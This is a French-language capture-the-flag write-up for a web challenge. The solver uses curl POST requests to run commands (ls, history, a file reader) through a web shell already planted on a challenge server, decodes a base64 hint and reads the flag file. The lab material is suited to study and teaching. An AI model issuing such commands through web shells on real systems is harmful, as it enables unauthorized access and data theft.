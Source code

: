 **Webshell - Web - 300**

Enoncé :

```
Now somebody uploaded a web shell to my web server. What a nice guy hurray!

http://138.197.41.168:8081/

HINT: I think somebody used some commands already but I could not figure how to find them.

```

[Alt](img/shell_as_service.png "shell_as_service.png")


__Résolution :__

On injecte tout d'abord une commande de base :
```BASH
curl -XPOST http://138.197.41.168:8081/ --data "command=ls"                               

index.php shell.jpg flag.txt
```

Le fichier flag.txt n'est pas directement accessible.

Le hint donné nous donne un sacré indice sur la commande à injecter :

```BASH
curl -XPOST http://138.197.41.168:8081/ --data "command=history"

1  ZXh0c
2  mFfc2
3  VjdXJ
4  lX2Zp
5  bGVfc
6  mVhZG
7  Vy

```
On décode le base64 :

```BASH
echo -n 'ZXh0c mFfc2 VjdXJ lX2Zp bGVfc mVhZG Vy' | base64 -di

extra_secure_file_reader
```
On va lire le fichier qui nous intéresse

```BASH

curl -XPOST http://138.197.41.168:8081/ --data "command=extra_secure_file_reader flag.txt"

YUBITSEC{shello_shello_are_you_thereo}

```


By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
